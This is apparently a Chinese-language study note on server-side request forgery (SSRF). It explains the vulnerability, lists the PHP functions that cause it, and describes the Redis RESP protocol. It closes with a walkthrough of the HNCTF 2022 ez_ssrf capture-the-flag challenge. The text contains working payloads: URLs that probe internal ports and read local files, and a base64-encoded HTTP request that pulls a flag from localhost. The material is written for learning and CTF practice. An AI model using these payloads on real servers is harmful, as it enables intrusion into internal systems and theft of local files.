


1. SSRF (Server-Side Request Forgery,服务器端请求伪造)是一种由攻击者构造请求，由服务端发起请求的安全漏洞。一般情况下，SSRF攻击的目标是外网无法访问的内部系统(正因为请求是由服务端发起的，所以服务端能请求到与自身相连而与外网隔离的内部系统)。  
**服务端自身发起**请求获得响应，得到自己需要的东西
### 二、SSRF漏洞原理
SSRF的形成大多是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。例如，黑客操作服务端从指定URL地址获取网页文本内容，加载指定地址的图片等，利用的是服务端的请求伪造。SSRF利用存在缺陷的Web应用作为代理攻击远程和本地的服务器。主要攻击方式如下所示。

- 对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息。
- 攻击运行在内网或本地的应用程序。
- 对内网Web应用进行指纹识别，识别企业内部的资产信息。
- 攻击内外网的Web应用，主要是使用HTTP GET请求就可以实现的攻击(比如struts2、SQli等)。
- 利用file协议读取本地文件等。http://payloads.net/ssrf.php?url=192.168.1.10:3306
http://payloads.net/ssrf.php?url=file:///c:/windows/win.ini
产生漏洞的相关函数

```python
file_get_contents()、fsockopen()、curl_exec()、fopen()、readfile()
```
$fp = fsockopen("127.0.0.1", 80);  建立连接，发起请求，得到响应
​
三、漏洞挖掘


四、各种协议
1.Redis协议（RESP）
Redis协议，也被称为 RESP (Redis Serialization Protocol)，它是一种简单的文本协议，用于在客户端和服务器之间操作和传输数据。可以说是最简单的一种传输协议。
RESP 协议描述了不同类型的数据结构，并且定义了请求和响应之间如何以这些数据结构进行交互。



```python
*2\r\n$3\r\nGET\r\n$5\r\nmykey\r\n  
发送一个包含两个参数的数组，命令是GET nmykey ,$3表示长度为3,
$7\r\nmyvalue\r\n  若nmykey=nmyvalue，则返回这个
$-1\r\n  不存在返回错误
```
例题
1. [HNCTF 2022 WEEK2]ez_ssrf  
访问index.php得到这个
```python
<?php

highlight_file(__FILE__);
error_reporting(0);

$data=base64_decode($_GET['data']);
$host=$_GET['host'];
$port=$_GET['port'];

$fp=fsockopen($host,intval($port),$error,$errstr,30);
if(!$fp) {
    die();
}
else {
    fwrite($fp,$data);
    while(!feof($data))
    {
        echo fgets($fp,128);
    }
    fclose($fp);
}
```
这个代码的大致意思就是你可以来访问任意服务端口，存在ssrf漏洞，因为fsockopen函数存在，然后题目的本质思路就是通过服务器去访问本地127.0.0.1/flag.php然后得到返回结果也就是flag，完整pyload?host=127.0.0.1&port=80&data=R0VUIC9mbGFnLnBocCBIVFRQLzEuMQ0KSG9zdDogMTI3LjAuMC4xDQpDb25uZWN0aW9uOiBDbG9zZQ0KDQo=，这里的base64编码的内容是

```python
GET /flag.php HTTP/1.1
Host: 127.0.0.1
Connection: Close
```
目的就是让服务器访问flag.php
